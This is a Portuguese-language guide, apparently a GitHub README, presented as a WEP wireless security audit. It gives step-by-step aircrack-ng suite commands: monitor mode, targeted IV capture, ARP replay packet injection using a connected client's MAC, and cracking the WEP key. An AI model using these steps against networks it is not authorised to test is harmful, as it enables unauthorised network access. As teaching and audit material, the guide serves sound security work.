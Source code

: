 # Auditoria de Segurança em Redes WEP

Este guia descreve os passos e comandos utilizados para realizar uma auditoria de segurança em uma rede sem fio com criptografia WEP (Wired Equivalent Privacy).

---

### 1. Ver os parâmetros da interface de rede

Antes de iniciar, é importante verificar as configurações da sua interface de rede wireless.

```bash
iwconfig
````

-----

### 2\. Colocar a interface em modo monitor

O modo monitor permite que uma interface wireless escute todos os pacotes que estão no ar, sem precisar estar conectada a uma rede específica. Isso é útil para tarefas de monitoramento de redes, captura de pacotes e realização de auditorias de segurança, como análise de vulnerabilidades de redes Wi-Fi e captura de handshakes em ataques de força bruta.

```bash
airmon-ng start wlan0
```

*Substitua `wlan0` pela sua interface de rede, se necessário.*

-----

### 3\. Capturar e monitorar o tráfego de redes sem fio

Quando a interface está no modo monitor, este comando coleta informações sobre as redes Wi-Fi ao alcance e pode capturar pacotes de dados. É amplamente usado em auditorias de segurança de rede.

```bash
airodump-ng wlan0mon
```

*O nome da interface pode mudar para `wlan0mon` após ativar o modo monitor.*

**Colunas do `airodump-ng`:**

  - **BSSID**: Endereço MAC do ponto de acesso.
  - **PWR**: A potência do sinal (quanto mais próximo de 0, mais forte o sinal).
  - **\#Data**: Pacotes de dados capturados do ponto de acesso.
  - **CH**: O canal em que o ponto de acesso está operando.
  - **MB**: Velocidade máxima suportada pela rede.
  - **ENC**: O tipo de criptografia usada (WEP, WPA, WPA2, WPA3).
  - **ESSID**: O nome da rede (SSID).

-----

### 4\. Capturar pacotes de uma rede específica

Para focar em um alvo específico e otimizar a captura, direcione o `airodump-ng` para o canal e BSSID da rede desejada. Para WEP, é necessário capturar apenas os pacotes IVs (Initialization Vectors), que são essenciais para quebrar a criptografia.

```bash
airodump-ng --ivs --channel [canal_do_ap] --bssid [bssid_do_ap] --write arquivo_de_captura wlan0mon
```

  - `--ivs`: Salva apenas os IVs, filtrando pacotes desnecessários.
  - `--channel`: Define o canal do ponto de acesso.
  - `--bssid`: Define o MAC address do ponto de acesso.
  - `--write`: Define o prefixo do arquivo onde os pacotes serão salvos (ex: `arquivo_de_captura.ivs`).

-----

### 5\. Injetar pacotes para acelerar a captura (Ataque de Replay de ARP)

Em redes WEP, pode-se realizar um ataque de replay de ARP para injetar pacotes na rede. Isso gera uma quantidade maior de tráfego e, consequentemente, acelera a coleta do grande número de IVs necessários para quebrar a chave WEP.

```bash
aireplay-ng --arpreplay -b [bssid_do_ap] -h [mac_do_cliente] wlan0mon
```

  - `--arpreplay`: Inicia o ataque de replay de ARP.
  - `-b`: O BSSID do ponto de acesso alvo.
  - `-h`: O endereço MAC de um cliente legítimo conectado à rede (obtido com o `airodump-ng`).

-----

### 6\. Quebrar a chave WEP

Com um número suficiente de IVs capturados, o `aircrack-ng` pode ser usado para analisar os pacotes e descobrir a chave de criptografia por força bruta.

```bash
aircrack-ng -b [bssid_do_ap] arquivo_de_captura*.ivs
```

  - `-b`: Especifica o BSSID do ponto de acesso.
  - `arquivo_de_captura*.ivs`: O(s) arquivo(s) de captura contendo os IVs. O asterisco (`*`) é usado caso o airodump tenha criado múltiplos arquivos.

<!-- end list -->

```
